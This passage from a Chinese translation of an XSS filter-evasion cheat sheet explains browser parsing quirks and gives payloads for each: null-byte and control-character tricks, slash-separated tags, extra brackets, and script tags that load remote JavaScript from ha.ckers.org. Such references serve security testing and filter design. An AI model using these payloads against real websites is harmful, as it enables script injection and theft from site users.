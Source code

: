 ```
perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out 
```

### 图片元素中 javascript 之前的空格和元字符为 xss

xss 过滤拼配模式没有考虑单词"javascript:"中可能存在空格是正确的，因为否则将无法渲染。但是这也导致了错误的假设认为你不可以有一个空格在引号和 "javascript:" 单词之间。事实上你可以插入 1-32 编码字符（十进制）中的任何字符。

```
<IMG SRC=" &#14;  javascript:alert('XSS');"> 
```

### 非字母数字字符 xss

Firefox html 解析器设定一个非数字字母字符不是有效的在一个 html 关键字后面，因此这些字符会被视为空白符或是无效的 token 在 html 标签之后。这导致很多 xss 过滤器错误的认为 html 标签必须是被空白符隔断的。例如，`"<SCRIPT\s" != "<SCRIPT/XSS\s"`:

```
<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT> 
```

和上面的原理相同，我们继续扩大，Gecko 渲染引擎允许字母、数字、html 封装字符以外的任何字符位于事件处理器与等号之间。从而借此绕过 xss 过滤器。注意这也是适用于重音符如下所示：

```
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")> 
```

Yair Amit 提示我有一个小区别在 ie 和 Gecko 渲染引擎之间是他们仅允许一个一个斜杠在 html 标签和参数之间，在不使用空格的情况下。这可能是有用的在那些不允许输入空格的系统中。

```
<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT> 
```

### 附加的开括号

Franz Sedlmaier 提出，利用这个 xss 向量可以绕过某些检测引擎，因为这些引擎通过拼配最早出现的一对尖括号，并且提取其内部内容作为标签，而没有使用更加有效的算法例如 Boyer-Moore（寻找打开的尖括号以及相关标签的模糊拼配）。代码中的双斜杠可以抑制额外尖括号导致的 javascript 错误。

```
<<SCRIPT>alert("XSS");//<</SCRIPT> 
```

### 没关闭的 script 标签

对于使用了 Gecko 渲染引擎的 Firefox 和 Netscape 8.1 ，你并不需要常规 xss 中"></SCRIPT>"这部分。 Firefox 会帮你闭合标签，并且加入结束标签。多么的体贴啊！ Unlike the next one, which doesn't effect Firefox, this does not require any additional HTML below it. 如果需要，你可以加入引号，但通常他并不是必须的。注意，我并不清楚这个代码被注入后 html 代码会闭合成什么样子。

```
<SCRIPT SRC=http://ha.ckers.org/xss.js?< B > 
```

### script 标签中的协议解析

这个特殊的变体由 Łukasz Pilorz 提出，并且基于上文中 Ozh 提出的协议解析绕过。这个 xss 例子工作在 IE, 使用 IE 渲染引擎的 Netscape 以及加了在结尾的 Opera。这是非常有用的在输入长度受到限制。域名越短越好。 ".j"是有效的，不需要考虑编码问题因为浏览拿起可以自动识别在一个 script 标签中。

```
<SCRIPT SRC=//ha.ckers.org/.j> 
```
